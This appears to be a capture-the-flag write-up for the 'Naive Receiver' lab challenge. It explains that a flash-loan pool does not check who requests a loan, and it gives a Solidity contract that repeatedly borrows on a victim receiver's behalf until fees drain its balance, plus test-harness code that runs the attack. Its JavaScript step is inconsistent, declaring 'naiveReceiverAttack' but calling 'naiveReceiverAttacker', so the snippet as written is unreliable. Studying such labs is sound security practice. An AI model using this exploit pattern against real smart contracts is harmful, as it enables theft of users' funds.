 # Naive Receiver

**HINT:** Does the ```NaiveReceiverLenderPool.sol``` contract authenticate the user?

<details>
<summary>Part 1</summary>
<p>

Anyone can use their contract to take out flash loans on the Lender Pool's dime, so we use it to drain them like so:
```
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/math/SafeMath.sol";

//Naive Receiver Lender Pool interface
interface INaiveReceiverLenderPool {
    function fixedFee() external pure returns (uint256);

    function flashLoan(address payable borrower, uint256 borrowAmount) external;
}
// Takes flash loans out until the contracts balance is 0 
contract naiveReceiverAttack {
    function attack(INaiveReceiverLenderPool pool, address payable receiver) public {
        uint256 FIXED_FEE = pool.fixedFee();
        while (receiver.balance >= FIXED_FEE) {
            pool.flashLoan(receiver, 0);
        }
    }
}
```

</p>
</details>

<details>
<summary>Part 2</summary>
<p>

Now go to ```naive-receiver.challenge.js``` and at the top of the file add:
```js
const naiveReceiverAttack = contract.fromArtifact('naiveReceiverAttack');
```
And at ```Exploit``` add:
```js
this.attacker = await naiveReceiverAttacker.new({ from: attacker });
await this.attacker.attack(this.pool.address, this.receiver.address)
```

```sh
npm run naive-receiver.challenge.js
```

</p>
</details>
